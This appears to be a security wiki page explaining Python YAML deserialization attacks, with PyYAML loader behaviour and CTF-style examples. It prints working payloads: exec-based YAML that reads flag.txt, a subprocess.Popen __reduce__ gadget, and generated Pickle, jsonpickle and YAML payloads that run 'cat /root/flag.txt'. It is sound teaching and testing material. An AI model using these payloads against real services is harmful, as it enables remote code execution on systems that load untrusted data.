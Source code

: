 # Python Yaml Deserialization


## Yaml **Deserialization**

**Yaml** python libraries is also capable to **serialize python objects** and not just raw data:

```
print(yaml.dump(str("lol")))
lol
...

print(yaml.dump(tuple("lol")))
!!python/tuple
- l
- o
- l

print(yaml.dump(range(1,10)))
!!python/object/apply:builtins.range
- 1
- 10
- 1
```
```
Check how the **tuple** isn’t a raw type of data and therefore it was **serialized**. And the same happened with the **range** (taken from the builtins).

![[<../../images/image (1040).png>|]]

**safe_load()** or **safe_load_all()** uses SafeLoader and **don’t support class object deserialization**. Class object deserialization example:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
data = b'!!python/object/apply:builtins.range [1, 10, 1]'

print(yaml.load(data, Loader=UnsafeLoader)) #range(1, 10)
print(yaml.load(data, Loader=Loader)) #range(1, 10)
print(yaml.load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=Loader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=UnsafeLoader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=FullLoader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.unsafe_load(data)) #range(1, 10)
print(yaml.full_load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.unsafe_load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>

#The other ways to load data will through an error as they won't even attempt to
#deserialize the python object
```
```
The previous code used **unsafe_load** to load the serialized python class. This is because in **version >= 5.1**, it doesn’t allow to **deserialize any serialized python class or class attribute**, with Loader not specified in load() or Loader=SafeLoader.

### Basic Exploit

Example on how to **execute a sleep**:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
data = b'!!python/object/apply:time.sleep [2]'
print(yaml.load(data, Loader=UnsafeLoader)) #Executed
print(yaml.load(data, Loader=Loader)) #Executed
print(yaml.load_all(data))
print(yaml.load_all(data, Loader=Loader))
print(yaml.load_all(data, Loader=UnsafeLoader))
print(yaml.load_all(data, Loader=FullLoader))
print(yaml.unsafe_load(data)) #Executed
print(yaml.full_load_all(data))
print(yaml.unsafe_load_all(data))
```
```
### Vulnerable .load("\<content>") without Loader

**Old versions** of pyyaml were vulnerable to deserialisations attacks if you **didn't specify the Loader** when loading something: `yaml.load(data)`

You can find the [[https://hackmd.io/@defund/HJZajCVlP|**description of the vulnerability here**]]**.** The proposed **exploit** in that page is:

```yaml
!!python/object/new:str
state: !!python/tuple
  - 'print(getattr(open("flag\x2etxt"), "read")())'
  - !!python/object/new:Warning
    state:
      update: !!python/name:exec
```
```
Or you could also use this **one-liner provided by @ishaack**:

```yaml
!!python/object/new:str {
  state:
    !!python/tuple [
      'print(exec("print(o"+"pen(\"flag.txt\",\"r\").read())"))',
      !!python/object/new:Warning { state: { update: !!python/name:exec  } },
    ],
}
```
```
Note that in **recent versions** you cannot **no longer call `.load()`** **without a `Loader`** and the **`FullLoader`** is **no longer vulnerable** to this attack.

## RCE

Custom payloads can be created using Python YAML modules such as **PyYAML** or **ruamel.yaml**. These payloads can exploit vulnerabilities in systems that deserialize untrusted input without proper sanitization.

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import subprocess

class Payload(object):
    def __reduce__(self):
        return (subprocess.Popen,('ls',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(deserialized_data)

#!!python/object/apply:subprocess.Popen
#- ls

print(yaml.load(deserialized_data, Loader=UnsafeLoader))
print(yaml.load(deserialized_data, Loader=Loader))
print(yaml.unsafe_load(deserialized_data))
```
```
### Tool to create Payloads

The tool [[https://github.com/j0lt-github/python-deserialization-attack-payload-generator|https://github.com/j0lt-github/python-deserialization-attack-payload-generator]] can be used to generate python deserialization payloads to abuse **Pickle, PyYAML, jsonpickle and ruamel.yaml:**

```bash
python3 peas.py
Enter RCE command :cat /root/flag.txt
Enter operating system of target [linux/windows] . Default is linux :linux
Want to base64 encode payload ? [N/y] :
Enter File location and name to save :/tmp/example
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All) :All
Done Saving file !!!!

cat /tmp/example_jspick
{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["cat", "/root/flag.txt"]}]}]}

cat /tmp/example_pick | base64 -w0
gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwDY2F0lIwOL3Jvb3QvZmxhZy50eHSUhpSFlFKULg==

cat /tmp/example_yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
    - /root/flag.txt
```
```
### References

- [[https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf|https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf]]
- [[https://net-square.com/yaml-deserialization-attack-in-python.html|https://net-square.com/yaml-deserialization-attack-in-python.html]]



